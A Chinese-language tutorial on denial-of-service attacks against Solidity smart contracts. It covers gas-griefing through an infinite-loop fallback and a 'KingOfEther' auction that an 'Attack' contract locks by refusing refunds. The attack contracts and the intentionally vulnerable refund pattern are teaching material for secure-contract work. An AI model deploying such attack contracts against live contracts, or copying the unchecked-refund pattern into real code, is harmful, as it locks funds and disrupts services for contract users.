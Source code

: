 ```yaml
---
title: 3-拒绝服务攻击

date: 2023-04-25	

categories: 合约安全	

tags: [区块链,合约安全]
---	
```


# 拒绝服务攻击

## Gas 导致拒绝服务

### 悲痛攻击（griefing attack）

意味着黑客试图为其他人 "制造悲痛"，即使他们没有从这样做中获得经济利益。

一个智能合约可以通过进入一个无限循环，恶意地用完转发给它的所有Gas。考虑一下下面的例子：

```solidity
contract Mal {
    fallback() external payable {
        // infinite loop uses up all the gas
        while (true) {
        }
    }
}
```

> 尽管擦除存储是一个节省Gas的操作，但它仍然有一个成本。如果一个数组变得太长，它就不可能被删除。
>
> 如果一个智能合约转账到有转账hook的代币，攻击者可以设置一个不接受代币的合约（它要么没有onReceive函数，要么将该函数编程为回退）。这将使代币无法转账，并导致整个交易被回退。
>

## 依赖某些特定条件

依赖某些特定条件才能执行的逻辑，如果有人恶意破坏并且没有检查是否满足条件，就会造成服务中断。

例如下面的例子：依赖接收者可以接收以太币，但是如果接收以太币的合约无 `receive` 函数或者 `fallback` 函数，就会让逻辑无法进行下去。

多人竞拍，如果有出价更高的则退回上个一竞拍者的以太币，并且更新胜出者 `king` 和当前标价 `balance`，`Attack` 合约参与竞拍，但是无法退回以太币给它，导致 DOS(claimThrone无法访问)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

contract KingOfEther {
    address public king;
    uint public balance;

    function claimThrone() external payable {
        require(msg.value > balance, "Need to pay more to become the king");

        (bool sent, ) = king.call{value: balance}("");
        require(sent, "Failed to send Ether");

        balance = msg.value;
        king = msg.sender;
    }
}

contract Attack {
    KingOfEther kingOfEther;

    constructor(KingOfEther _kingOfEther) {
        kingOfEther = KingOfEther(_kingOfEther);
    }

    function attack() public payable {
        kingOfEther.claimThrone{value: msg.value}();
    }
}
```

